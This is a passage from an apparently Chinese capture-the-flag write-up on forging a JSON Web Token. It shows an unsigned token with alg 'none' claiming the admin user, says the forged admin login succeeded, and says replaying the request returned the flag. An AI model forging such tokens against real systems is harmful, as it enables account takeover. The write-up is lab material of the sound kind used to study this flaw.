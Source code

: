 获得自己的JWT。

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMzQ1NiIsImlhdCI6MTY4MDkyMjA3MH0.
```

![伪造admin用户登录成功](./伪造admin用户登录成功.png)

通过上面观察到，我们已经绕过成功，对数据包再次重放，拿到flag。

![获得flag](./获得flag.png)

### 删除账户
